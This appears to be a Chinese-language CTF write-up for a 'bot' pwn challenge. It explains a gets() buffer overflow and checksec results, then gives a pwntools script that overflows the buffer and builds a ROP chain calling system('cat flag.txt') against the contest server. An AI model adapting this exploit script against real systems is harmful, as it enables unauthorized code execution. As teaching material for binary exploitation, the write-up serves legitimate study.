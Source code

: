 ```clike=
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
}
```
:::

在原始碼中可以發現，在第 11 行的地方是使用 gets 讀取字串，有明顯的 BOF 漏洞

使用 checksec 檢測，發現 canary 和 PIE 是關的，可以方便我們進行攻擊

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

因此攻擊思路是先隨便進到一個 entry，並用 `\x00` 把 input 的 64 個字元填滿，並使用 ROP 串接 `pop rdi` 的 gadget 後呼叫 system

以下是攻擊腳本

:::spoiler solve.py
```python
from pwn import *
binary = "./bot"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("lac.tf", 31180)
# conn = process(binary)
# conn = gdb.debug(binary)

system = p64(0x401050)
cat_flag = p64(0x4020f3)
pop_rdi = p64(0x40133b)
ret = p64(0x401016)

payload = b"give me the flag"
payload += b"\x00" * (64 - len(payload))
payload += b"A"*8
payload += ret
payload += pop_rdi
payload += cat_flag
payload += system
conn.sendlineafter(b"help?\n", payload)
conn.interactive()
```
:::

